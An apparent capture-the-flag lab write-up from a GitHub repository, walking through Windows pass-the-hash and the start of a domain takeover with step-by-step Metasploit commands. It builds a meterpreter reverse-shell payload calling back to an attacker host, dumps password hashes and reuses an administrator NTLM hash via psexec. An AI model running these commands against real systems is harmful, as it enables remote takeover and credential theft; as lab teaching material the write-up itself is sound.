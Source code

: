 
## Windows Pass the Hash 
a.	Run the following cmd to create a payload
Msfconsole
set LHOST 10.110.28.200
set payload windows/x64/meterpreter/reverse_tcp
set LPORT '5454'
set ExitOnSession false
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST='10.110.28.200' LPORT='5454' -f exe -o payload.exe
b.	Moved the payload to 10.110.28.40 with: 
scp payload.exe Bob@10.110.28.40:/C:/Users/Bob
c.	Run the following cmd to get  a session and hashdump
use exploit/multi/handler
exploit
run -j
Session -i 1
hashdump
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/e44c3486-bfbc-45be-896b-1b24709e9bfe)
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/bf90b765-9ffa-4474-bae7-804fe0c9569a)
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/fd55d62f-6759-4bcd-9dd4-81eb6801005a)
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/79a0b071-d220-4c2c-93d3-7113d026174d)

 
d.	On a new terminal, I ran metasploit and set smb user and password with the administrator hashdump, accessed the system to get the flag:
Msfconsole
use windows/smb/psexec
set payload windows/x64/meterpreter/reverse_tcp
set lport 5555
set rhost 10.110.28.70
set SMBUser Administrator
set SMBPass aad3b435b51404eeaad3b435b51404ee:35698da376367f675299cdadbe5c30dc
exploit
search -f *flag*
shell 
cd c:\Users\Administrator\.ssh\  
type MyLateralFlag.txt
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/6f46d9f3-bbe9-4199-9153-ea101db057d1)
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/ed14b843-56b5-4f42-8efe-a785f2d8375a)
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/037e4360-7341-4437-8bff-d12562a6b6ad)
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/80516c9c-af49-4f72-9c24-809c2a78cd74)
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/c985baa9-91a5-445a-97dc-161df2bad940)


## Windows Domain Takeover
**Windows Domain Takeover I** 
Used hydra cmd to obtain Dave’s password as seen in the screenshot 
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/919bc88d-248a-4a13-8a92-af3abffb12f2)
